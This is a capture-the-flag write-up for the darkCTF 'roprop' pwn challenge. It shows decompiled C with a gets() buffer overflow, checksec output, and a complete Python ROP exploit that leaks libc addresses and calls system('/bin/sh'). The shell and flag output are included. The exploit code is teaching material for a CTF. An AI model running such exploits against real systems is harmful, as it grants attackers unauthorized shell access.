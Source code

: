 ## Pwn/roprop
gr4n173

*This is from the back Solar Designer times where you require rope to climb and get anything you want.*

`nc pwn.darkarmy.xyz 5002`

File: `roprop`

## Solving
This challenge was done rapidly with [`pwnscripts`](https://github.com/152334H/pwnscripts).
```c
void timeout_kill(int a1) {
  if ( a1 == 14 ) {
    printf("Timeout occured. Exiting!");
    exit(0);
  }
}
unsigned int nvm_timeout() {
  signal(14, (__sighandler_t)timeout_kill);
  return alarm(0x3Cu);
}
int nvm_init() {
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}
int main() {
  char s[0x50]; // [rsp+0h] [rbp-50h]
  nvm_init();
  nvm_timeout();
  puts("Welcome to the Solar Designer World.\n");
  puts("He have got something for you since late 19's.\n");
  gets(s);
}
```
There is `gets()`. This means there's an overflow. 
```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
From `checksec`, PIE is disabled. This means that ROP can be abused with `puts()` on the GOT table to leak libc, and then to jump to a one-gadget.

Simple as pie.

```python
from pwnscripts import *
context.binary = 'roprop'
GOT_FUNCS = ['puts', 'gets']
DIST = 0x58

p = remote('pwn.darkarmy.xyz', 5002)

r = ROP(context.binary)
r.raw(DIST*b'a')
for s in GOT_FUNCS: r.puts(context.binary.got[s])
r.main()
p.sendlineafter("19's.\n\n", r.chain())

libc_leaks = dict((s,extract_first_bytes(p.recvline(),6)) for s in GOT_FUNCS)
context.libc_database = 'libc-database'
context.libc = context.libc_database.libc_find(libc_leaks)

r = ROP(context.binary)
r.raw(DIST*b'\0')
r.call(context.libc.symbols['system'], [context.libc.symbols['str_bin_sh']])
p.sendlineafter("19's.\n\n", r.chain())
p.interactive()
```
```bash
[+] Opening connection to pwn.darkarmy.xyz on port 5002: Done
[*] Loaded 14 cached gadgets for 'roprop'
[*] found libc! id: libc6_2.27-3ubuntu1.2_amd64
[*] Switching to interactive mode
$ ls
bin
dev
flag.txt
lib
lib32
lib64
roprop
$ cat flag.txt
darkCTF{y0u_r0p_r0p_4nd_w0n}
```
